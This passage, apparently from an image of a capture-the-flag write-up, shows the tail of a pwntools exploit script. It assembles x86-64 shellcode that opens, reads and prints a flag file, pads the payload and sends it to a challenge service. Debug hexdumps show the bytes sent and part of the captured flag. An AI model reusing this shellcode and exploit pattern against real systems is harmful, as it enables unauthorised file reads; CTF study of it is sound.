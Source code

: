 ```python
        syscall

        mov rax, 257
        mov rdi, -100
        mov rsi, {}
        xor rdx, rdx
        mov r10, 0
        syscall

        mov rdi, rax
        mov rsi, {}
        mov rdx, 0x400
        mov rax, 0
        syscall

        mov rax, 1
        mov rdi, 1
        mov rsi, {}
        mov rdx, 0x400
        syscall

        xor edi, edi
        mov rax, 0x3c
        syscall

'''.format(buf, buf, buf, buf))

payload = ''
payload += '\xcc'*0xec
payload += sc
payload = payload.ljust(0x1000, '\x00')
r.send(payload)
r.send(name.ljust(0x100, '\x00'))
r.interactive()
```

```
[DEBUG] Sent 0x1000 bytes:
    00000000  cc cc cc cc  cc cc cc cc  cc cc cc cc  cc cc cc cc  │····│····│····│····│
    *
    000000e0  cc cc cc cc  cc cc cc cc  cc cc cc cc  48 31 c0 48  │····│····│····│H1·H│
    000000f0  c7 c7 00 00  00 00 48 be  00 08 00 f0  ee 0b 00 00  │····│··H·│····│····│
    00000100  48 c7 c2 00  01 00 00 0f  05 48 c7 c0  01 01 00 00  │H···│····│·H··│····│
    00000110  48 c7 c7 9c  ff ff ff 48  be 00 08 00  f0 ee 0b 00  │H···│···H│····│····│
    00000120  00 48 31 d2  49 c7 c2 00  00 00 00 0f  05 48 89 c7  │·H1·│I···│····│·H··│
    00000130  48 be 00 08  00 f0 ee 0b  00 00 48 c7  c2 00 04 00  │H···│····│··H·│····│
    00000140  00 48 c7 c0  00 00 00 00  0f 05 48 c7  c0 01 00 00  │·H··│····│··H·│····│
    00000150  00 48 c7 c7  01 00 00 00  48 be 00 08  00 f0 ee 0b  │·H··│····│H···│····│
    00000160  00 00 48 c7  c2 00 04 00  00 0f 05 31  ff 48 c7 c0  │··H·│····│···1│·H··│
    00000170  3c 00 00 00  0f 05 00 00  00 00 00 00  00 00 00 00  │<···│····│····│····│
    00000180  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00001000
[DEBUG] Sent 0x100 bytes:
    00000000  2f 70 77 6e  2f 65 39 64  38 35 62 35  64 34 36 38  │/pwn│/e9d│85b5│d468│
    00000010  30 64 33 63  30 37 65 38  39 35 31 64  38 30 64 34  │0d3c│07e8│951d│80d4│
    00000020  34 39 39 38  65 2e 74 78  74 00 00 00  00 00 00 00  │4998│e.tx│t···│····│
    00000030  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000100
[*] Switching to interactive mode
[DEBUG] Received 0x400 bytes:
    00000000  72 61 72 63  74 66 7b 61  6c 6c 30 63  34 74 30 72  │rarc│tf{a│ll0c│4t0r│
    00000010  73 5f 64 30  5f 6e 30 74  5f 6d 31 78  5f 65 34 35  │s_d0│_n0t│_m1x│_e45│
```
